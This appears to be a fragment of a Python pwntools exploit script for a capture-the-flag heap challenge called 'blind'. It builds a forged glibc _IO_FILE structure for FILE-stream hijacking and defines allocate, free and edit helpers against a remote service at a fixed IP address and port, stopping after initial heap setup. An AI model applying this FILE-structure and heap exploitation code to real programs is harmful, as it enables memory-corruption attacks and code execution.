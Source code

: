 ```python
            _pa(self._IO_write_base) + \
            _pa(self._IO_write_ptr) + \
            _pa(self._IO_write_end) + \
            _pa(self._IO_buf_base) + \
            _pa(self._IO_buf_end) + \
            _pa(self._IO_save_base) + \
            _pa(self._IO_backup_base) + \
            _pa(self._IO_save_end) + \
            _pa(self._markers) + \
            _pa(self._chain) + \
            _p32(self._fileno) + \
            _p32(self._flags2) + \
            _p64(self._old_offset) + \
            _p16(self._cur_column) + \
            _p8(self._vtable_offset) + \
            _p8(self._shortbuf)
        if _BITS == 64:
            buf += _p32(0)
        buf += _pa(self._lock)
        if not _IO_USE_OLD_IO_FILE:
            buf += \
            _p64(self._offset) + \
            _pa(self._codecvt) + \
            _pa(self._wide_data) + \
            _pa(self._freeres_list) + \
            _pa(self._freeres_buf) + \
            _psz(self.__pad5) + \
            _p32(self._mode) + \
            ''.join(map(lambda x:_p8(x), self._unused2)) +\
            _pa(self.vtable)
        return buf
        
    def __str__(self):
        return self.tostr()

#p = process("./blind")
p = remote("106.75.20.44 ",9999)

def new(index,content):
	p.recvuntil("Choice:")
	p.sendline('1')
	p.recvuntil("Index:")
	p.sendline(str(index))
	p.recvuntil("Content:")
	p.sendline(content)

def release(index):
	p.recvuntil("Choice:")
	p.sendline('3')
	p.recvuntil("Index:")
	p.sendline(str(index))

def change(index,content):
	p.recvuntil("Choice:")
	p.sendline('2')
	p.recvuntil("Index:")
	p.sendline(str(index))
	p.recvuntil("Content:")
	p.send(content)

new(0,'111')
new(1,'222')
release(0)
```